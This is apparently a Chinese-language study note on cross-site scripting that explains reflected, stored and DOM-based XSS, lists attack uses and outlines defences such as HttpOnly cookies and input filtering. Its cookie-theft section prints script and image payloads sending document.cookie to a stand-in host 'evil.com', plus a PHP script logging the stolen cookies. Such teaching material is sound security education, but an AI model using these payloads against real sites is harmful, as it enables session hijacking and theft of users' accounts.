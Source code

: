 ## 简介

XSS攻击，全称Cross Site Script攻击。通常是指黑客通过“HTML”注入篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。一般分为**反射型XSS**、**存储型XSS**和**基于DOM的XSS**。

1. **反射型XSS**：通常由黑客构造一个恶意的url，通过诱使用户点击实现攻击目的。
2. **存储型XSS**：黑客将恶意代码以博客或者其他形式存储到服务器上，每当其他用户浏览该内容时就会受到攻击。
3. **基于DOM的XSS**：这种XSS并不以“数据是否保存在服务器上”作为分类标准。从效果上，他是一种反射型XSS，但由于其独特的形成原因而单独列出。前端页面提供了用户修改DOM节点的功能，而用户通过输入攻击Payload达到插入脚本的目的，从而可以进一步实施更深入的攻击。

可能产生的后果：Cookie劫持，窃取用户信息，模拟用户身份执行操作（利用AJAX构造HTTP）

## XSS利用姿势

#### 1. Cookie窃取

可以使用下面的姿势将受害者cookie以GET的姿势发送到服务器上：

```js
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

远程服务器可以由配套接收cookie的服务器文件：

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

#### 2. 构造POST或者GET请求

利用插入在用户页面的XSS Payload，以用户的身份发送GET或者POST请求。Javascript可以发送GET、POST类型的请求，POST类型的请求也可以通过AJAX\(XMLHttpRequest或者ActiveXObject\)的方式发送。

#### 3. 钓鱼

#### 4. 挂马

#### 5. DOS或者DDOS

#### 6. XSS蠕虫

## 攻击姿势

通过XSS攻击，攻击者能够在用户当前浏览的页面中植入恶意脚本，并进而控制用户浏览器。这些脚本可以被称为攻击Payload。

###### 

## XSS防御

### 1. HttpOnly

可以对Cookie设置HttpOnly属性，从而禁止JavaScript对该类型Cookie的访问，从而防止了攻击者利用XSS窃取用户Cookie。

然而除了对Cookie的利用之外，XSS还有很多其他的利用手段。

### 2. 输入检查

XSS Payload一般会包含很多正常用户不会输入的字符，我们可以通过对输入的检查来过滤可能存在的攻击行为。这种检查在前端应该保证输入的格式正确，比如输入日期可以使用相应的表单进行，并且在后端进行逻辑的检查。

针对XSS的检查，可以将用户输入的一些字符如`<`、`>`等进行过滤或者编码，或者对XSS特征的过滤。

### 3. 输出检查



> 参考：
>
> 1. 《白帽子讲Web安全》
> 2. [CTF-wiki: XSS cross-site scripting attack](https://ctf-wiki.github.io/ctf-wiki/web/xss-zh/)



